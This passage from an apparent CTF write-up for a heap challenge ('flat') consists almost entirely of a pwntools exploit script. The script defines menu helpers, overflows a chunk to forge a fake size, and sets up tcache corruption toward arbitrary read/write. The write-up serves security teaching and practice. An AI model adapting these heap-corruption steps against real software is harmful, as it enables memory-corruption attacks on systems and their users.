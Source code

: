 With that, we've essentially achieved arb read/write, and the rest is pretty straightforward.

```python
from pwn import *

MALLOC_BKPT = 0x402a85
FREE_BKPT   = 0x402c83
PUTS_BKPT   = 0x4034a5
FUNNY_BKPT  = 0x403235

e = context.binary = ELF('./flat_patched')
libc = ELF('./libc-2.31.so')
p = e.process() if not args.REMOTE else remote('chall.geekctf.geekcon.top', 40246)
if args.DBG:
    gdb.attach(p, '\n'.join(f'b *{hex(x)}' for x in [MALLOC_BKPT, FREE_BKPT, PUTS_BKPT]))
    pause()

BUF = 0x4060b0

def malloc(idx, size, content=b''):
    p.sendline(b'768')
    p.sendline(str(idx).encode())
    p.sendline(str(size).encode())
    p.sendline(content)

def hack(idx, content):
    p.sendline(b'2989')
    p.sendline(str(idx).encode())
    p.sendline(content)

def edit(idx, content):
    p.sendline(b'4112')
    p.sendline(str(idx).encode())
    p.sendline(content)

def free(idx):
    p.sendline(b'4919')
    p.sendline(str(idx).encode())

def show(idx, expect=True):
    p.sendline(b'57005')
    p.clean()
    p.sendline(str(idx).encode())
    if expect:
        return p.recvline()

malloc(0, 0x60) # chunk size 0x71
malloc(1, 0x100) # chunk size 0x111
payload = (
     b'A'*0x80
     + b'B'*0x8 # wrap around (char cast)
     + p64(0x111) # fake size
     + b'C'*(0x70-0x8) # fill chunk
     + p64(0x111) # leave top chunk untouched
)
assert len(payload) == 0x100
hack(1, payload)
free(0)
malloc(0, 0x100) # tcache fake chunk with size 0x111

malloc(10, 0x100)
malloc(11, 0x20)
free(10)
free(1)
```